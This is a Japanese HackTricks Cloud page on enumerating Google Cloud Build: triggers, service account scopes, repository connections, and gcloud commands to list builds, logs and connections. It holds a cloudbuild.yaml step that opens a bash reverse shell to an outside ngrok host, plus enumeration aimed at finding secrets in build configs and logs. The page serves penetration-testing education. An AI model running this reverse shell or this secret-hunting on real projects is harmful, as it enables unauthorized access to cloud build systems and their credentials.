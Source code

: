 # GCP - Cloud Build Enum

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>でAWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

- **HackTricksで企業を宣伝**したい場合や**HackTricksをPDFでダウンロード**したい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を入手する
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
- **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**に参加するか、[Telegramグループ](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)をフォローする
- **HackTricks**と**HackTricks Cloud**のGitHubリポジトリにPRを提出して、あなたのハッキングテクニックを共有する

</details>

## 基本情報

Google Cloud Buildは、**ソースコードリポジトリと統合**し、**幅広いプログラミング言語をサポート**する、ソフトウェアビルドとリリースプロセスを**自動化**するマネージドCI/CDプラットフォームです。**開発者がコードを自動的にビルド、テスト、デプロイ**できるようにし、ビルドステップやワークフローをカスタマイズする柔軟性を提供します。

各Cloud Buildトリガーは、**Cloudリポジトリに関連付けられているか、外部リポジトリ（Github、Bitbucket、Gitlab）と直接接続されています**。

{% hint style="success" %}
ここからまたはCloudリポジトリからGithub/Bitbucketトークンを盗む方法は見当たりませんでした。リポジトリがダウンロードされると、[https://source.cloud.google.com/](https://source.cloud.google.com/)のURLを介してアクセスされ、Githubはクライアントによってアクセスされません。
{% endhint %}

### イベント

Cloud Buildは、次の場合にトリガーされます：

- **ブランチにプッシュ**：ブランチを指定
- **新しいタグをプッシュ**：タグを指定
- **プルリクエスト**：PRを受け取るブランチを指定
- **手動呼び出し**
- **Pub/Subメッセージ**：トピックを指定
- **Webhookイベント**：HTTPS URLを公開し、リクエストはシークレットで認証する必要があります

### 実行

3つのオプションがあります：

- 実行するコマンドを指定するyaml/json。通常は：`/cloudbuild.yaml`
- WebコンソールとCLIで「インライン」で指定できる唯一の方法
- 最も一般的なオプション
- 認証されていないアクセスに関連する
- ビルドするための**Dockerfile**
- ビルドするための**Buildpack**

### SA権限

**サービスアカウントには`cloud-platform`スコープがあり**、**すべての権限を使用**できます。**SAが指定されていない場合**（submit時など）、**デフォルトのSA** `<proj-number>@cloudbuild.gserviceaccount.com` が**使用されます**。

デフォルトでは権限が与えられていませんが、簡単に権限を与えることができます：

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 承認

Cloud Buildを構成して、ビルドの実行に**承認が必要**なようにすることができます（デフォルトでは無効）。

### 接続とリポジトリ

接続は以下で作成できます：

- **GitHub**：Githubトークンを取得するために**OAuthプロンプト**が表示され、**Secret Manager**内に保存される
- **GitHub Enterprise**：**GithubApp**をインストールするように求められます。GitHub Enterpriseホストからの**認証トークン**が作成され、このプロジェクト内に**Secret Manager**シークレットとして保存されます。
- **GitLab / Enterprise**：**APIアクセストークン**と**Read APIアクセストークン**を提供する必要があり、これらは**Secret Manager**に保存されます。

接続が生成されると、Githubアカウントがアクセス権を持つリポジトリを**リンク**することができます。

このオプションは、次のボタンを介して利用できます：

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
この方法で接続されたリポジトリは、**2世代を使用するトリガーでのみ利用可能**です。
{% endhint %}

### リポジトリの接続

これは**`接続`**とは異なります。これにより、**異なる**方法で**GithubまたはBitbucket**リポジトリにアクセスできますが、**接続オブジェクトは生成されません**。ただし、リポジトリオブジェクト（1世代）は生成されます。

このオプションは、次のボタンを介して利用できます：

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### ストレージ

時々、Cloud Buildはトリガーのファイルを保存するための新しいストレージを生成します。これは、GCPが提供する例で発生します。
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
### シェルを取得

[security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox)というストレージバケットが作成され、使用するファイルが含まれた`.tgz`が保存されています。
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### 列挙

**ビルド構成とログに機密情報が含まれている可能性があります**。
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### 特権昇格

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### 認証されていないアクセス

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### 攻撃後の処理

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）でAWSハッキングをゼロからヒーローまで学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>!</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)で**フォロー**する
* **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks)のGitHubリポジトリにPRを提出して、あなたのハッキングトリックを共有する

</details>
